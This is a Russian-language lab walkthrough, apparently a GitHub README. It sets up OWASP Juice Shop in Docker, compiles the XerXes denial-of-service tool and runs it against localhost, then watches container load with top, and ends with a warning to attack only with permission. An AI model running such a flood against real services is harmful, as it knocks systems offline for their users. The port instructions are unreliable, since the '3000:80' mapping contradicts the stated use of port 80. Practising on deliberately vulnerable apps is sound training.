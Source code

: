 
### 1. Установите Docker на виртуальную машину Ubuntu

Если Docker еще не установлен на вашей виртуальной машине, следуйте этим шагам:

```bash
sudo apt update
sudo apt install -y docker.io
sudo systemctl start docker
sudo systemctl enable docker
```

### 2. Запустите Docker контейнер Juice Shop

Скачайте и запустите Docker контейнер Juice Shop:

```bash
docker run -d -p 3000:80 bkimminich/juice-shop
```

Эта команда загрузит и запустит Juice Shop на порту 80 вашей виртуальной машины.
Для запуска Juice Shop в браузере необходимо прописать `localhost:80`


![image](https://github.com/user-attachments/assets/7fa631a4-6228-4377-a5bc-e8cffc19afc0)

### 3. Установите необходимые пакеты для компиляции XerXes

Вам нужно будет установить компилятор `gcc`, если он еще не установлен:

```bash
sudo apt update
sudo apt install -y gcc unzip
```

### 4. Распакуйте архив XerXes

Предполагая, что вы уже скачали ZIP архив XerXes на вашу виртуальную машину, распакуйте его:

```bash
unzip xerxes.zip -d xerxes
cd xerxes
```

### 5. Скомпилируйте XerXes

Теперь, когда вы находитесь в директории XerXes, скомпилируйте его с помощью `gcc`:

```bash
gcc xerxes.c -o xerxes
```

### 6. Проведите DOS атаку на Juice Shop

Теперь вы можете запустить атаку на Juice Shop. Используйте IP-адрес или имя хоста вашей виртуальной машины и порт 80:

```bash
./xerxes 127.0.0.1 80
```

![image](https://github.com/user-attachments/assets/6e773391-d659-4051-8f3f-26f274e8cd16)


Замените `127.0.0.1` на реальный IP-адрес, если Juice Shop работает не на локальном хосте.

### 7. Посмотрите на нагрузку на контейнер Juice Shop

Чтобы наблюдать за нагрузкой, вызванной атакой, вы можете использовать команду `top` в новом терминале:

```bash
top
```

Чтобы фильтровать процессы, связанные с Docker, нажмите `o` и введите:

```
COMMAND=docker
```

Это покажет только процессы Docker. Вы увидите нагрузку на процессор и память, что укажет на влияние DOS-атаки на контейнер Juice Shop.
![image](https://github.com/user-attachments/assets/64de187a-2e05-49ad-beb5-9af854b8b866)

Максимальная нагрузка, которую получилось достичь - 40% , но в среднем нагрузка 10-15% 

# Проводите DOS атаку на сервисы только при наличии полного официального разрешения. 
<s>P.S будешь проводить без разрешения - получишь по жопе</s> 
